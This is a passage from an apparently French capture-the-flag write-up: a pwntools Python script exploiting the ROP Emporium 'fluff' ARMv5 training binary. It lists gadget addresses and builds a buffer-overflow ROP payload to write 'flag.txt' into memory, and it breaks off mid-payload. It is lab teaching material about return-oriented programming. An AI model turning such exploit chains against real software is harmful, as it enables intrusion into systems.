 
## Exploitation

### Le script python

```python
##!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# ropemporium ARMv5 fluff
# Set up pwntools for the correct architecture
elf = context.binary = ELF('fluff_armv5')

# 164 : read
# 176 : ret
gs='''
b *pwnme+176
'''

# Gadgets
# En mode 32
# pop {r4, r5, r6, r7, r8, sb, sl, pc}
g_pop_r45678 = 0x010658

# pop {r0, r1, r3}; bx r1
g_pop_r013_bxr1 = 0x000105ec

# pop {r3, pc}
g_pop_r3 = 0x00010474

# 0x000105c8 : mov r0, r3 ; pop {fp, pc}
g_mov_r0r3 = 0x000105c8

# En mode thumb
# str r6, [r5, #0x44] ; bx r0
g_str_r6r5_bxr0 = 0x000103ea

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])

data = elf.get_section_by_name('.data').header['sh_addr']
print_file = elf.plt['print_file']

log.info(f".data       = 0x{data}")
log.info(f".print_file = 0x{print_file}")

io.recvuntil(b"> ")

offset=0x24

flagfile=b"flag.txt"

PL=b"A"*offset
# "flag"
PL+=p32(g_pop_r45678)
PL+=p32(0)               # r4
PL+=p32(data-0x44)       # r5
PL+=flagfile[:4]         # r6
PL+=p32(0)               # r7
```